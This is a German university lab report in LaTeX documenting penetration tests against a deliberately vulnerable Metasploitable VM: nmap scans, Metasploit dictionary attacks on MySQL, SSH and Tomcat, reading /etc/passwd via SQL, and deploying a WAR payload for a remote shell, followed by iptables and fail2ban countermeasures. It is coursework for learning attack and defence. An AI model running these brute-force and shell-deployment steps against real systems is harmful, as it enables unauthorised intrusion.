
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Document template TEX-STD-A4 by g0hl1n
%
% This document is derived from the TEX-STD-A4 template.
% The TEX-STD-A4 template was released into the public domain.
% For more information, please refer to <http://unlicense.org/>
%   Template-Source:  https://github.com/g0hl1n/LaTeX
%   Template-Author:  Richard 'g0hl1n' Leitner <me@g0hl1n.net>
%   Template-Version: 1.1
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\documentclass[a4paper,12pt]{article} % An article on a4paper with 12pt fontsize
\usepackage[utf8]{inputenc} % input is utf8
\usepackage[ngerman]{babel} % comment-in for new-german, out for english

%----------------------------------------------------------------------------------------
%	META DATA
%----------------------------------------------------------------------------------------
\def \theauthor  {Michael Haslauer}
\def \footerauthor {Haslauer}
\def \thedate    {\today}
\def \thetitle   {Internet Infrastruktur und Sicherheit\\3. Labor Protokoll}
\def \subtitle   {vom 07. November 2013}
\def \shorttitle {IFS LB Protokoll 03}
\def \company    {Fachhochschule Salzburg}
\def \department {itsb-m2013}
\def \version    {0.1}

\author{\theauthor\\\company}
\date{\thedate}
\title{\thetitle}

%----------------------------------------------------------------------------------------
%	PACKAGES
%----------------------------------------------------------------------------------------
\usepackage{geometry} % for page dimensions
\usepackage{fancyhdr} % for custom (fancy) headers and footers
\usepackage{lastpage} % for pagecount
\usepackage{graphicx} % for embedding graphics
\usepackage{listings} % for source listings
\usepackage{hyperref} % for urls and their appearence
\usepackage{color}    % for colored text
\usepackage{fancyvrb} % for custom verbatims
\usepackage{graphicx} % Required for including pictures
\usepackage{float}    % Allows putting an [H] in \begin{figure} to specify the exact location of the figure
\usepackage{wrapfig}  % Allows in-line images such as the example fish picture
\usepackage{blindtext}% for blind text
\usepackage[table,usenames,dvipsnames]{xcolor} % for own color definitions and tables
\usepackage{colortbl}
%\usepackage{arev}		% the arev font
%\usepackage[T1]{fontenc}
\usepackage{multirow} % for multirowed columns in tables
\usepackage{listings} % sourcecode listings
\usepackage{appendix} % for appendices

%----------------------------------------------------------------------------------------
%	DOCUMENT CONFIGRUATION
%----------------------------------------------------------------------------------------
\geometry{top=25mm,left=25mm,right=20mm,bottom=22mm,headsep=10mm,footskip=12mm}

\linespread{1} % Line spacing
%\setlength\parindent{0pt} % remove all indentation from paragraphs

\graphicspath{{./img/}} % Specifies the directory where pictures are stored

%Hyperlink setup
\hypersetup{
    colorlinks,
    citecolor=black,
    filecolor=black,
    linkcolor=black,
    urlcolor=black
}

% Listing Style
\lstdefinestyle{code}{
	breaklines=true,
	frame=single,
	captionpos=b,
	basicstyle=\ttfamily,
}

% Enable custom header & footer
\pagestyle{fancy}

% set the header height (to avoid warnings)
\setlength{\headheight}{14.5pt}

% define my Header
\renewcommand{\headrulewidth}{0.4pt}
\fancyhead[L]{\company}
\fancyhead[C]{\department}
\fancyhead[R]{\shorttitle}

% define my Footer
\renewcommand{\footrulewidth}{0.4pt}
\fancyfoot[L]{\footerauthor}
\fancyfoot[C]{V\version\ $\mid$ \thedate}
\fancyfoot[R]{Page \thepage\ of \pageref{LastPage}}

% COLORS:
\definecolor{titlepagelinecolor}{HTML}{707070} % grey
%\definecolor{titlepagelinecolor}{HTML}{007A04} % green

% rename title of "Listings"
%\renewcommand{\lstlistlistingname}{List of Listings}

% no pagebreak after title:
\let\endtitlepage\relax

\hyphenation{Authenti-cation}

\begin{document}

%----------------------------------------------------------------------------------------
%	TITLE & TABLE OF CONTENTS
%----------------------------------------------------------------------------------------
\begin{titlepage}
\begin{center}
\Large\company\tiny\\
\textcolor{titlepagelinecolor}{\line(1,0){465}\\[1cm]}
\huge
\textbf{\thetitle}\\
\Large \subtitle\\[1cm]
\end{center}
\large
\theauthor\ $\mid$ \department\hfill Version \version\ $\mid$ \thedate\\[1cm]
\textcolor{titlepagelinecolor}{\line(1,0){465}\\[1cm]}
\end{titlepage}

\tableofcontents % Include a table of contents

\newpage
%\setcounter{page}{1} % Reset Page counter

%----------------------------------------------------------------------------------------
%	Aufbau
%----------------------------------------------------------------------------------------
\section{Kurzbeschreibung}
In dieser Übung sollen verschiedene Exploits durchgeführt werden um Angriffe auf Server mit Sicherheitslücken zu versuchen. Dabei wird die in Abbildung \ref{fig:topologie} gezeigte Topologie verwendet. Der Angreifer (Back Track) befindet sich aber im selben Netz wie der Server (Metasploitable). Als Server wird hierbei eine spezielle Linux-Distribution namens Metaploitable verwendet da sich diese durch eine große Anzahl von Sicherheitslücken auszeichnet.
\begin{figure}[ht]
	\centering
		
\includegraphics[width=0.95\textwidth]{img/topologie.png}
	\caption{Netzwerktopologie der Übung}
	\label{fig:topologie}
\end{figure}


%----------------------------------------------------------------------------------------
%	Netzwerkscans
%----------------------------------------------------------------------------------------
\section{Netzwerkscans}
\label{section:netzwerkscans}
Als erstes werden vom Angreifer diverse Netzwerkscans mittels \verb!nmap! durchgeführt um Informationen über das Netzwerk zu gewinnen. Als erstes wird ein Ping Sweep auf das Netz 10.1.1.0 durchgeführt um belegte IP Adressen zu ermitteln.

\begin{lstlisting}[style=code,caption={Ping Sweep auf 10.1.1.*},label=lst:scan:pingsweep]
root@bt:~# nmap -sP 10.1.1.*
Starting Nmap 6.01 at 2013-11-06 10:32 EST
Nmap scan report for 10.1.1.1
Host is up (0.00030s latency).
MAC Address: 00:0C:29:3A:06:77 (VMware)
Nmap scan report for 10.1.1.130
Host is up (0.00026s latency).
MAC Address: 00:0C:29:39:12:B2 (VMware)
Nmap scan report for 10.1.1.131
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 6.91 seconds
\end{lstlisting}
\verb!nmap! findet dabei wie in Listing \ref{lst:scan:pingsweep} zu erkennen ist 2 andere Hosts im Netzwerk auf 10.1.1.1 und 10.1.1.130. Als nächstes müssen diese beiden Hosts identifiziert werden was mittels einer OS Detection (\verb!nmap -O -v [IP]!) durchgeführt wird. Beide Hosts werden dabei als Linux Hosts erkannt. Da man sich aber nahezu sicher sein kann, dass auf 10.1.1.1 der Router zu finden ist muss der anzugreifende Host unter 10.1.1.130 erreichbar sein. Zum Abschluss der Scans soll noch ermittelt werden welche Service auf dem Server laufen und welche Ports erreichbar sind. Das geschieht mittels \verb!nmap -sV [IP]!. Der Vorgang liefert das in Listing \ref{lst:scan:services} gezeigte Ergebnis:

\begin{lstlisting}[style=code,caption={Service Scan von 10.1.1.130},label=lst:scan:services]
root@bt:~# nmap -sV 10.1.1.130
Starting Nmap 6.01 at 2013-11-06 10:35 EST
Nmap scan report for 10.1.1.130
Host is up (0.00027s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X 
445/tcp  open  netbios-ssn Samba smbd 3.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:39:12:B2 (VMware)
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:kernel

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
\end{lstlisting}


%----------------------------------------------------------------------------------------
%	MySQL Attacken
%----------------------------------------------------------------------------------------
\section{Exploits}
Die Angriffe in den folgenden Kapitels werden von der Back Track VM aus auf den Server unter 10.1.1.130 durchgeführt. Als Hilfe wird dabei das Programm \verb!msfconsole! verwendet das bereits Funktionen für viele bekannte Exploits mitbringt.

\subsection{MySQL}
Der erste Service der attackiert wird ist der MySQL Server der Metasploitable. Aus dem Service Scan ist zu erkennen, dass der MySQL Port 3306 erreichbar ist und ein Service dahinter läuft. Mittels \verb!msfconsole! wird als erstes eine Brute-Force Attacke auf den Login des MySQL Server versucht. Allerdings wird keine reine Brute-Force Attacke durchgeführt sondern eine Wörterbuchattacke mit den häufigsten Username/Passwort Kombinationen. \verb!msfconsole! bringt dabei viele Module für Angriffe mit die mit dem Befehl \verb!search! durchsucht werden können. In diesem Fall wird wird das Modul auxiliary/scanner/mysql/mysql\_login verwendet. Mittels \verb!show options! können die Konfigurationsmöglichkeiten des Moduls ausgegeben werden. In unserem Fall werden die in Listing \ref{lst:mysql:login:options} gezeigten Optionen verwendet:

\begin{lstlisting}[style=code,caption={Konfiguration des MySQL Moduls},label=lst:mysql:login:options]
msf  auxiliary(mysql_login) > set PASS_FILE /root/pass.txt
PASS_FILE => /root/pass.txt
msf  auxiliary(mysql_login) > set USER_FILE /root/user.txt 
USER_FILE => /root/user.txt
msf  auxiliary(mysql_login) > set RHOSTS 10.1.1.130
RHOSTS => 10.1.1.130
\end{lstlisting}
Dabei werden die beiden Dateien angegeben die die Usernamen und Passwörter enthalten die versucht werden sollen. \verb!RHOSTS! gibt das Angriffsziel an. Mit \verb!run! wurd der Angriff gestartet. \verb!msfconsole! startet nun einen Loginversuch mit jeder Username/Passwort Kombination. Listing \ref{lst:mysql:login:run} zeigt den Output des Angriffs:

\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf MySQL},label=lst:mysql:login:run]
[*] 10.1.1.130:3306 MYSQL - Found remote MySQL version 5.0.51a
...
[*] 10.1.1.130:3306 MYSQL - [08/38] - Trying username:'sqladmin' with password:'sqladmin'
[*] 10.1.1.130:3306 MYSQL - [08/38] - failed to login as 'sqladmin' with password 'sqladmin'
[*] 10.1.1.130:3306 MYSQL - [09/38] - Trying username:'root' with password:'root'
[+] 10.1.1.130:3306 - SUCCESSFUL LOGIN 'root' : 'root'
[*] 10.1.1.130:3306 MYSQL - [10/38] - Trying username:'administrator' with password:'administrator'
[*] 10.1.1.130:3306 MYSQL - [10/38] - failed to login as 'administrator' with password 'administrator'
[*] 10.1.1.130:3306 MYSQL - [11/38] - Trying username:'its' with password:'its'
[*] 10.1.1.130:3306 MYSQL - [11/38] - failed to login as 'its' with password 'its'
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
Es wird somit ein erfolgreicher Loginversucht registriert mit den Logindaten root:root. Über diese gefundenen Logindaten kann sich der Angreifer mit dem MySQL Server der Metasploitable verbinden (\verb!mysql -h 10.1.1.130 -u root -p!). Dem Angreifer stehen nun alle Daten des MySQL Servers offen und er könnte die Datenbank auslesen. Außerdem ist es möglich lokale Dateien über SQL Befehle auszulesen. Der mysql User unter dem der MySQL Server läuft muss dazu lediglich Leserechte auf die Datei besitzen. Somit kann die \verb!passwd! der Metasploitable ausgelesen werden um weitere Usernamen in Erfahrung zu bringen auf die ein Angriff gestartet werden kann. Die \verb!passwd! wird mittels \verb!SELECT load_file('/etc/passwd')! angezeigt. Vielversprechend sind dabei Admin-User wie der \verb!msfadmin! der in der passwd Datei gefunden wird.

\subsection{SSH}
\label{subsection:ssh}
Mit dem im vorherigen Kapitel gefundenen msfadmin User soll nun eine Brute-Force Attacke auf den SSH Login des Server versucht werden. Dazu wird dieser in die User- und Passwort-Wörterbuchdatei hinzugefügt. in msfconsole wird wieder über den \verb!search! Befehl ein geeignetes Modul gesucht. Hierbei wird nun auxiliary/scanner/ssh/ssh\_login verwendet. Diese Modul wird analog zu den Optionen in Listing \ref{lst:mysql:login:options} konfiguriert und anschließend gestartet. Listing \ref{lst:ssh:login:run} zeigt den Output des Angriffs:

\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf SSH},label=lst:ssh:login:run]
[*] 10.1.1.130:22 SSH - Starting bruteforce
...
[*] 10.1.1.130:22 SSH - [10/43] - Trying: username: 'administrator' with password: 'administrator'
[-] 10.1.1.130:22 SSH - [10/43] - Failed: 'administrator':'administrator'
[*] 10.1.1.130:22 SSH - [11/43] - Trying: username: 'its' with password: 'its'
[-] 10.1.1.130:22 SSH - [11/43] - Failed: 'its':'its'
[*] 10.1.1.130:22 SSH - [12/43] - Trying: username: 'msfadmin' with password: 'msfadmin'
[*] Command shell session 1 opened (10.1.1.131:36832 -> 10.1.1.130:22) at 2013-11-06 10:53:33 -0500
[+] 10.1.1.130:22 SSH - [12/43] - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] 10.1.1.130:22 SSH - [13/43] - Trying: username: 'admin' with password: 'password'
[-] 10.1.1.130:22 SSH - [13/43] - Failed: 'admin':'password'
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
Auch hier wurde ein erfolgreicher Loginversuch mit msfadmin:msfadmin verzeichnet. Über diese Logindaten kann nun per SSH auf den Server verbunden werden.
\newline

\textbf{Wie kann diese Attacke verhindert werden?}
Eine Brute-Force Attacke kann nur schwer verhindert werden. Die erste und erfolgreichste Maßnahme gegen Brute-Force Attacken ist ein ausreichend langes und komplexes Passwort zu verwenden. Damit werden Attacken die keine Wörterbücher verwenden können wesentlich zeitaufwändiger. Außerdem sollten die Zugriffsrechte der jeweiligen User auf dem Server möglichst stark eingeschränkt sein damit im Falle einer Kompromittierung nicht der komplette Server kontrolliert werden kann. Weitere Gegenmaßnahmen werden in Kapitel \ref{section:gegen} erläutert.

\subsection{Tomcat}
Hierbei wird versucht analog zu den vorherigen Kapiteln die Logindaten des Tomcats zu ermitteln und anschließend eine Shell der Metasploitable über den Tomcat auf dem Rechner des Angreifers zu öffnen. Bei der Ermittlung der Logindaten des Tomcats muss beachtet werden, dass dieser nicht unter dem Standardport 8080 läuft. Im Listing \ref{lst:scan:services} aus Kapitel \ref{section:netzwerkscans} kann man erkenne, dass der Tomcat auf Port 8180 läuft. Daher muss bei der Konfiguration des Angriffs-Moduls dieser Port mit \verb!set RPORT 8180! zusätzlich angegeben werden. Nach Durchführung des Angriffs wird folgender Login ermittelt:

\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf Tomcat Manager},label=lst:tomcat:login:run]
...
[*] 10.1.1.130:8180 TOMCAT_MGR - [16/56] - Trying username:'tomcat' with password:'tomcat'
[+] http://10.1.1.130:8180/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
...
\end{lstlisting}
Die Logindaten tomcat:tomcat werden nun im nächsten Schritt verwendet um die Shell zu öffnen.
Mit dem Modul multi/http/tomcat\_mgr\_deploy wird versucht dem Tomcat ein Java Programm zu übermitteln das dort ausgeführt wird. Dieses soll die entsprechende Shell öffnen und einen Rückkanal zum Angreifer legen. Das Modul wird wie in Listing \ref{lst:tomcat:exploits:options} angegeben konfiguriert:

\begin{lstlisting}[style=code,caption={Konfiguration des Tomcat Exploits},label=lst:tomcat:exploits:options]
msf  exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf  exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf  exploit(tomcat_mgr_deploy) > set RHOST 10.1.1.130
RHOST => 10.1.1.130
msf  exploit(tomcat_mgr_deploy) > set RPORT 8180
RPORT => 8180
msf  exploit(tomcat_mgr_deploy) > set PAYLOAD java/shell/bind_tcp 
PAYLOAD => java/shell/bind_tcp
\end{lstlisting}
Es werden dabei die gefundenen Logindaten eingestellt sowie auch die Verbindungsdaten des Ziels. Wichtig hierbei ist die Payload. Dort wird angegeben was auf dem Tomcat als Payload übermittelt wird und dort ausgeführt werden soll. Der Befehl \verb!exploit! starten den Angriff und zeigt anschließend folgenden Output (Listing \ref{}):

\begin{lstlisting}[style=code,caption={Exploit für Shell},label=lst:tomcat:exploit:run]
[*] Started bind handler
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6433 bytes as yzesidw.war ...
[*] Executing /yzesidw/UhoYpa5XFik35upD7upY5PBiJyh5L3U.jsp...
[*] Undeploying yzesidw ...
[*] Sending stage (2976 bytes) to 10.1.1.130
[*] Command shell session 2 opened (10.1.1.131:52058 -> 10.1.1.130:4444) at 2013-11-06 11:20:12 -0500
\end{lstlisting}
Anschließend kann der Angreifer herkömmliche Shellbefehle direkt am Zeil ausführen.
\newline

\textbf{Wie kann die Tomcat Attacke verhindert werden?}
Die einfachste Methode diesen Angriff zu verhindern ist, die Logindaten des Tomact Managers entsprechend stark zu machen. Je schwieriger es ist das Passwort herauszufinden desto sicherer wird man. Ohne die Logindaten kann der Angreifer nämlich das Java Programm erst gar nicht am Tomcat ausführen.

\subsection{Diskussion}
\textbf{Voraussetzungen für Erfolg des Angriffs?}
Sofern der entsprechende Port erreichbar ist kann der Angriff sowohl im Netzwerk als auch aus dem Internet heraus durchgeführt werden. Als Gegenmaßnahme könnte man den Port des Tomcat Managers nur aus dem lokalen Netz erreichbar machen. Dann müsste der Angreifer zuerst ins Netzwerk eindringen um den Angriff durchführen zu können. Allerdings muss sich auch der Administrator im Netzwerk befinden um auf den Tomcat Manager zugreifen zu können. Am einfachsten verhindert werden kann der Angriff mit ausreichend sicheren Passwörtern und Nicht-Standard-Usernamen.

\section{Gegenmaßnahmen}
\label{section:gegen}
Im nachfolgenden Kapitel werden die Brute-Force Attacken auf den Ubuntu Router unter 10.1.1.1 erneut durchgeführt und es wird gezeigt wie diese Angriffe verhindert werden können.

\subsection{manuelle Firewall updates}
Sofern einem User eine Brute-Force Attacke auffällt, kann er den Angriff verhindern indem er die entsprechende IP Adresse auf der Firewall blockiert. Somit kann der Angreifer gar keinen Loginversuch mehr starten. Erkannt werden kann eine Brute-Force Attacke über die logs des SSH Servers. Der Angreifer führt nun eine Attacke wie in Kapitel \ref{subsection:ssh} durch, währenddessen werden die Logfiles (/var/log/auth.log) am Zielrechner überwacht. Der User sieht nun die in Listing \ref{lst:ssh:log} gezeigten Einträge im Log:

\begin{lstlisting}[style=code,caption={Auth-Log des SSH Server am Ziel},label=lst:ssh:log]
Nov  6 17:27:38 ubuntu sshd[2595]: Invalid user admin from 10.1.1.131
Nov  6 17:27:38 ubuntu sshd[2595]: Failed none for invalid user admin from 10.1.1.131 port 42096 ssh2
Nov  6 17:27:44 ubuntu sshd[2597]: Invalid user sqladmin from 10.1.1.131
Nov  6 17:27:44 ubuntu sshd[2597]: Failed none for invalid user sqladmin from 10.1.1.131 port 57131 ssh2
Nov  6 17:27:54 ubuntu sshd[2601]: Invalid user administrator from 10.1.1.131
...
\end{lstlisting}
Der User kann also erkennen, dass von der IP Adresse 10.1.1.131 massenhaft fehlgeschlagene Loginversuche durchgeführt werden was stark auf eine Brute-Force Attacke hinweist. Als Gegenmaßnahme kann der User nun die IP Adresse in der Firewall sperren lassen so das keine Packete mehr durchkommen. Durchgeführt wird das z.B. über einen Eintrag in der /etc/init.d/iptables\_update Datei auf Linuxrechnern. Hierbei wird folgender Eintrag hinzugefügt: \verb!iptables -A INPUT 10.1.1.131 -p tcp -j DROP! \\
Dadurch werden alle Packete von der 10.1.1.131 automatisch von der Firewall gedropped. Der Angreifer sieht nun folgenden Output in msfconsole (Listing \ref{lst:ssh:login:fail}):
\begin{lstlisting}[style=code,caption={Fehlgeschlagene Brute-Force Attacke},label=lst:ssh:login:fail]
[*] 10.1.1.1:22 SSH - Starting bruteforce
[*] 10.1.1.1:22 SSH - [01/43] - Trying: username: 'admin' with password: ''
[-] 10.1.1.1:22 SSH - [01/43] - Retrying 'admin':'' due to connection error
[-] 10.1.1.1:22 SSH - [01/43] - Could not connect
[-] 10.1.1.1:22 SSH - [01/43] - Bruteforce cancelled against this service.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\subsection{dynamische Firewall updates}
\label{subsection:dyn:firewall}
Da es nicht sehr praktikabel ist ständig seine Logfiles manuell zu überwachen gibt es Programme wie z.B. \verb!fail2ban! die diese Aufgabe übernehmen. Dabei wird das Logfile des SSH Server überwacht und IP Adresse gesperrt die ein bestimmtes Maß an fehlgeschlagenen Loginversuchen übersteigen. Fail2ban fügt dazu einfach eine entsprechende Regel zur Firewall hinzu. Erkennt fail2ban eine solche IP Adresse erscheint folgender Eintrag im log: 2013-11-06 17:39:17,454 fail2ban.actions: WARNING [ssh] Ban 10.1.1.131. Beim Angreifer bricht danach der Angriff gleich wie in Listing \ref{lst:ssh:login:fail} zu sehen ab. Betrachtet man die iptables des Rechners (\verb!iptables -L!) so sieht man den entsprechenden Eintrag für die IP Adresse:

\begin{lstlisting}[style=code,caption={iptables des Rechners},label=lst:ssh:iptables]
...
Chain fail2ban-ssh (1 references)
target     prot opt source               destination
DROP       all  --  10.1.1.131           0.0.0.0/0
...
\end{lstlisting}
Wie lange die IP Adresse gesperrt bleibt lässt sich dabei konfigurieren. Außerdem kann nicht nur der SSH Server des Rechner überwacht werden. Nachfolgend soll auch der FTP Server des Rechner auf Brute-Force Attacken überwacht werden. Dazu müssen die in Listing \ref{lst:fail2ban:config} gezeigten Änderungen an der Konfiguration von fail2ban in /etc/fail2ban/jail durchgeführt werden.

\begin{lstlisting}[style=code,caption={fail2ban Konfiguration (Auzug)},label=lst:fail2ban:config]
[proftpd]

enabled  = true
port     = ftp,ftp-data,ftps,ftps-data
filter   = proftpd
logpath  = /var/log/proftpd/proftpd.log
maxretry = 3
\end{lstlisting}
\verb!maxentry! gibt dabei die maximale Anzahl von fehlerhaften Loginversuchen an die durchgeführt werden dürfen.
Der Angreifer sieht in einem solchen Fall folgenden Output während des Angriffs (Listing \ref{lst:ftp:login}):
\begin{lstlisting}[style=code,caption={Brute-Force auf FTP},label=lst:ftp:login]
[*] 10.1.1.1:21 - Starting FTP login sweep
[*] Connecting to FTP server 10.1.1.1:21...
[*] Connected to target FTP server.
[*] 10.1.1.1:21 - FTP Banner: '220 ProFTPD 1.3.2c Server (Debian) [::ffff:10.1.1.1]\x0d\x0a'
[*] 10.1.1.1:21 FTP - Attempting FTP login for 'anonymous':'IEUser@'
[*] 10.1.1.1:21 FTP - Failed FTP login for 'anonymous':'IEUser@'
[*] 10.1.1.1:21 FTP - [01/43] - Attempting FTP login for 'admin':''
[*] 10.1.1.1:21 FTP - [01/43] - Failed FTP login for 'admin':''
[*] 10.1.1.1:21 FTP - [02/43] - Attempting FTP login for 'sqladmin':''
[*] 10.1.1.1:21 FTP - [02/43] - Failed FTP login for 'sqladmin':''
[*] 10.1.1.1:21 FTP - [03/43] - Attempting FTP login for 'root':''
[-] 10.1.1.1:21 FTP - [03/43] - Caught EOFError, reconnecting and retrying
[*] 10.1.1.1:21 FTP - [03/43] - Failed FTP login for 'root':''
[*] 10.1.1.1:21 FTP - [04/43] - Attempting FTP login for 'administrator':''
[-] 10.1.1.1:21 FTP - [04/43] - The server rejected username: 'administrator'
...
\end{lstlisting}
Die ersten drei Loginversuche erreichen den Server noch, danach werden alle weiteren Versuche rejected. Ein Angreifer hat somit nur mehr wenige versuche das Passwort zu erraten was die Wahrscheinlichkeit eines erfolgreichen Angriffs drastisch verringert.


\newpage
%----------------------------------------------------------------------------------------
%	APPENDICES
%----------------------------------------------------------------------------------------
\begin{appendix}
\end{appendix}

%----------------------------------------------------------------------------------------
%	LISTS
%----------------------------------------------------------------------------------------
% List of Figures
\newpage
\phantomsection
\addcontentsline{toc}{section}{\listfigurename}
\listoffigures

% List of Tables
%\newpage
%\phantomsection
%\addcontentsline{toc}{section}{\listtablename}
%\listoftables

% List of Listings
%\newpage
\phantomsection
\addcontentsline{toc}{section}{\lstlistlistingname}
\lstlistoflistings

% Bibliography
%\newpage
%\phantomsection
%\addcontentsline{toc}{section}{Literatur}
%\bibliographystyle{plain}
%\bibliography{bibliography}

%----------------------------------------------------------------------------------------

\end{document}
